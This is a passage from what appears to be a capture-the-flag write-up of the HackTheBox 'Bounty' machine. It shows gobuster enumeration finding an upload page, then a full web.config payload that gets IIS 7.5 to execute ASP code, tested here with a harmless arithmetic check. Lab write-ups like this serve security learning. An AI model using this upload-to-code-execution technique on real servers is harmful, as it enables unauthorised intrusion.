 We also know that the server is running on IIS so file extensions should be **asp** or **aspx**. We can refine our search by adding `-x .aspx` to gobuster, based on the assumptions we just made.

```bash
boiteaklou@kali:~/Bounty$ gobuster -u http://10.10.10.93/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .aspx -o gobuster/bounty.aspx

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.93/
[+] Threads      : 50
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : aspx
[+] Timeout      : 10s
=====================================================
2018/10/27 22:43:30 Starting gobuster
=====================================================
/transfer.aspx (Status: 200)
```

Running it only a few seconds is enough to reveal **transfer.aspx**.

![Transfer.aspx]({{ "/assets/2018-10-28/transfer.png" | absolute_url }} "Transfer.aspx")

We found our entry point. Let's exploit it!

User Access
-----------

Googling "IIS 7.5 upload RCE" teaches us that **ASP** code can be executed by uploading a file called **web.config**.

We will test if the website is vulnerable by uploading the following file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Response.write("-"&"->")
Response.write(1+2)
Response.write("<!-"&"-")
%>
```
The ASP code is located at the very bottom of the file, between **<%** and **%>**. With this payload, the server should return "3" if it is vulnerable.
